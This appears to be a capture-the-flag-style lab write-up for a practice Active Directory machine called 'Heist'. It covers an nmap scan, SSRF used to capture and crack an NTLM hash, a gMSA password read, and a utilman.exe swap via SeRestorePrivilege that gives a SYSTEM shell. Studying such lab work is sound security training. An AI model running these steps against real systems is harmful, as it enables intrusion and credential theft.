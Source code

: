 # Heist

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.240.165
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 13:09 +08
Nmap scan report for 192.168.240.165
Host is up (0.17s latency).
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
8080/tcp  open  http-proxy
9389/tcp  open  adws
49666/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49674/tcp open  unknown
49687/tcp open  unknown
49740/tcp open  unknown
```

This is an AD machine. There were no null credentials accepted by any service. Also, RDP is open.

### Secure Web Browser --> NTLM Capture

Port 8080 hosted a Secure Web Browser application:

<figure><img src="../../../.gitbook/assets/image (3366).png" alt=""><figcaption></figcaption></figure>

This looks vulnerable to SSRF, and it is.&#x20;

<figure><img src="../../../.gitbook/assets/image (500).png" alt=""><figcaption></figcaption></figure>

We can view the exact request this is sending:

```
$ nc -lvnp 80                                 
listening on [any] 80 ...
connect to [192.168.45.216] from (UNKNOWN) [192.168.240.165] 49902
GET /hiiamssrf HTTP/1.1
Connection: Keep-Alive
Accept: */*
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
Host: 192.168.45.216
```

This might be poisanable with `responder`, and I tested it:

<figure><img src="../../../.gitbook/assets/image (3237).png" alt=""><figcaption></figcaption></figure>

This hash can be cracked instantly:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
california       (enox)     
1g 0:00:00:00 DONE (2023-07-07 13:20) 100.0g/s 204800p/s 204800c/s 204800C/s 123456..lovers1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

We can then `evil-winrm` into the box:

<figure><img src="../../../.gitbook/assets/image (2482).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Bloodhound --> ReadGMSAPassword

Remember to add this entry to the `/etc/hosts` file:

```
192.168.240.165 heist.offsec dc01.heist.offsec
```

Afterwards, we can run `bloodhound-python` on this domain:

```
$ bloodhound-python -d heist.offsec -u enox -p california -c all -ns 192.168.240.165
```

After the data is uploaded, we can see that `enox` is part of the Web Admins group:

<figure><img src="../../../.gitbook/assets/image (3239).png" alt=""><figcaption></figcaption></figure>

This group has the ReadGMSAPassword privilege over the DC:

<figure><img src="../../../.gitbook/assets/image (3227).png" alt=""><figcaption></figcaption></figure>

There is one service account present on the domain, and it is `svc_apache`:

```
*Evil-WinRM* PS C:\Users\enox\desktop> dir C:\Users


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/20/2021   4:25 AM                Administrator
d-----        2/17/2023   2:28 PM                enox
d-r---        5/28/2021   3:53 AM                Public
d-----        9/14/2021   8:27 AM                svc_apache$
```

To abuse this, we can use `GMSAPasswordReader.exe` to read the password.&#x20;

```
*Evil-WinRM* PS C:\Users\enox\desktop> .\gmsapasswordreader.exe --AccountName 'svc_apache$'
Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : F3BD314F41B2238B77AE44295B1692D0
[*]       aes128_cts_hmac_sha1 : C3E579495A9E7D2E628AF3706F4D3F8E
[*]       aes256_cts_hmac_sha1 : 9CE142EE695F99644C7E353BD41003A1DE557D49E964CE303580DE61839FB100
[*]       des_cbc_md5          : 29EC62D95B83C80E

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : F545CFD20E81CB5F45ECBFC138298D74
[*]       aes128_cts_hmac_sha1 : 71BA26A3A3F8943448F3A30601D60CF2
[*]       aes256_cts_hmac_sha1 : E7729B725E69655399D18745127797D22D14E70ED8D6F40ED8CD2E89B71C361C
[*]       des_cbc_md5          : 0104797391E6C86D
```

We can then `evil-winrm` in as this user:

<figure><img src="../../../.gitbook/assets/image (3017).png" alt=""><figcaption></figcaption></figure>

### SeRestorePrivilege --> RDP Shell

This service user has the SeRestorePrivilege enabled:

```
*Evil-WinRM* PS C:\Users\svc_apache$\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

To exploit this, we can follow the methodology on PayloadAllTheThings:

<figure><img src="../../../.gitbook/assets/image (2533).png" alt=""><figcaption></figcaption></figure>

We can execute these commands:

```
*Evil-WinRM* PS C:\Users\svc_apache$\Documents> Enable-SeRestorePrivilege
*Evil-WinRM* PS C:\Users\svc_apache$\Documents> cd C:\Windows\System32
*Evil-WinRM* PS C:\Windows\System32> move utilman.exe utilman.old
*Evil-WinRM* PS C:\Windows\System32> move cmd.exe utilman.exe
```

Afterwards we need RDP access. We don't actually need to login, we just need to access the login page:

```
$ rdesktop -d heist.offsec -u enox -p california heist.offsec
```

![](<../../../.gitbook/assets/image (3565).png>)

Just press the button on the bottom right, and it will spawn a SYSTEM shell:

<figure><img src="../../../.gitbook/assets/image (2099).png" alt=""><figcaption></figcaption></figure>

If you want to get a proper shell, then we can just add `enox` to the Domain Admins and Administrators groups with `net.exe`. Rooted!&#x20;
